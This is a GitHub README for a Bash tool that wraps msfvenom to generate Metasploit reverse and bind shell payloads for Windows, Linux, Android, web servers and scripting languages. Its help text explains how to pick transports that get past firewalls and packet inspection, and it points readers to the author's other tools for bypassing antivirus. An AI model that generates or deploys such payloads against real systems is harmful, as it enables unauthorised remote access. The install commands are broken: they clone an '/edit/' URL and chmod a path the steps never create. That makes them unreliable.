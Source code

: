 # Zacky_PayGen
A simple and usage payload generator tool for educational purposes.


A **quick** way to generate various "basic" Meterpreter payloads via `msfvenom` (part of the Metasploit framework).

<p align="center">
  <img src="https://img.fruugo.com/product/3/64/175799643_max.jpg" alt="Zacky_logo"/>
</p>


- - -


## About

MSFvenom Payload Creator to generate multiple types of payload.

**Fully automating**
The rest is to make the user's life as **easy as possible** 
**Note** 
If you want to bypass Antivirus see for more of my tools :)

- - -


## Install

+ Designed for **Kali Linux v2.x/Rolling** & **Metasploit v4.11+**.

```
$ sudo git clone https://github.com/Gesus-del/Zacky_PayGen/edit/Zacky_PayGen
$ chmod +x /usr/local/bin/Zacky_PayGen
```
### Kali-Linux

```
$ sudo bash Zacky_PayGen.sh                  
 [*] MSFvenom Payload Creator (Zacky_PayGen v0.1)

 [i] Missing TYPE or BATCH/LOOP mode

 Zacky_PayGen.sh <TYPE> (<DOMAIN/IP>) (<PORT>) (<CMD/MSF>) (<BIND/REVERSE>) (<STAGED/STAGELESS>) (<TCP/HTTP/HTTPS/FIND_PORT>) (<BATCH/LOOP>) (<VERBOSE>)
   Example: Zacky_PayGen.sh windows 192.168.1.10        # Windows & manual IP.
            Zacky_PayGen.sh elf bind eth0 4444          # Linux, eth0's IP & manual port.
            Zacky_PayGen.sh stageless cmd py https      # Python, stageless command prompt.
            Zacky_PayGen.sh verbose loop eth1           # A payload for every type, using eth1's IP.
            Zacky_PayGen.sh msf batch wan               # All possible Meterpreter payloads, using WAN IP.
            Zacky_PayGen.sh help verbose                # Help screen, with even more information.

 <TYPE>:
   + APK
   + ASP
   + ASPX
   + Bash [.sh]
   + Java [.jsp]
   + Linux [.elf]
   + OSX [.macho]
   + Perl [.pl]
   + PHP
   + Powershell [.ps1]
   + Python [.py]
   + Tomcat [.war]
   + Windows [.exe // .exe-service // .dll]

 Rather than putting <DOMAIN/IP>, you can do a interface and Zacky_PayGen will detect that IP address.
 Missing <DOMAIN/IP> will default to the IP menu.

 Missing <PORT> will default to 443.

 <CMD> is a standard/native command prompt/terminal to interactive with.
 <MSF> is a custom cross platform shell, gaining the full power of Metasploit.
 Missing <CMD/MSF> will default to <MSF> where possible.

 <BIND> opens a port on the target side, and the attacker connects to them. Commonly blocked with ingress firewalls rules on the target.
 <REVERSE> makes the target connect back to the attacker. The attacker needs an open port. Blocked with engress firewalls rules on the target.
 Missing <BIND/REVERSE> will default to <REVERSE>.

 <STAGED> splits the payload into parts, making it smaller but dependent on Metasploit.
 <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 Missing <STAGED/STAGELESS> will default to <STAGED> where possible.

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGELESS> & <TCP + HTTP + HTTPS + FIND_PORT> 
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```
